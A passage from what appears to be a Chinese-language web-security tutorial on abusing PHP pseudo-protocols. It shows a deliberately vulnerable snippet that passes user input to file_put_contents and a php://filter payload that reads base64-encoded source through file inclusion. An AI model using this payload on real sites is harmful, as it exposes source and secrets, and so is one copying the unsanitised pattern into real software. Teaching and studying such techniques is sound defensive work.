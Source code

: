 [![img](assets/5.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/5.png?raw=true)



### 伪协议利用：php://output

只写数据流，允许你以 print 和 echo 一样的方式 写入到输出缓冲区。

```php
<?php  
$code=$_GET["a"];  
file_put_contents($code,"test");   
?>  
```

![图片.png](https://upload-images.jianshu.io/upload_images/9113969-98310a34f0023185.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)



file_put_content写入文件，加入php://output后可以写道输出缓冲区



### **伪协议利用：php://filter**（XXE也同样可用）

利用条件：

1. 无要求



姿势：

```
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```



通过指定末尾的文件，可以读取经base64加密后的文件源码，之后再base64解码一下就行。虽然不能直接获取到shell等，但能读取敏感文件危害也是挺大的。
[![img](assets/8.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/8.png?raw=true)
